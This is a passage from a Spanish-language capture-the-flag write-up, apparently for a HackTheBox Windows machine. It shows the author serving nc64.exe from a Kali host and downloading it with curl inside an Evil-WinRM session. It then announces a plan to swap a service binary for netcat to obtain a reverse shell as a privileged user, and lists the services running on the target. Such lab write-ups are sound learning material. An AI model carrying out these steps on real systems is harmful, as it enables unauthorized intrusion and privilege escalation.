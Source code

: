 			┌──(kali㉿kali)-[~/Downloads/netcat-1.11]
			└─$ python3 -m http.server 80
			Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
			10.10.11.108 - - [03/Apr/2025 20:33:22] code 404, message File not found
			10.10.11.108 - - [03/Apr/2025 20:33:22] "GET /ne64.exe HTTP/1.1" 404 -
			10.10.11.108 - - [03/Apr/2025 20:33:35] "GET /nc64.exe HTTP/1.1" 200 -
			```
	
			```bash
			- *Evil-WinRM* PS C:\Users\svc-printer\Desktop> curl 10.10.14.3/nc64.exe -o nc.exe
			*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir
			
			
			    Directory: C:\Users\svc-printer\Desktop
			
			
			Mode                LastWriteTime         Length Name
			----                -------------         ------ ----
			-a----         4/3/2025   5:52 PM          43696 nc.exe
			-ar---         4/3/2025   5:30 PM             34 user.txt
			```
		- Suplantacion de un servicio por nc.exe para poder obtener una reverse shell como root:
			- Consulto sobre todos los servicios que tiene ejecutando el equipo:
vil-WinRM* PS C:\Users\svc-printer\Desktop> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
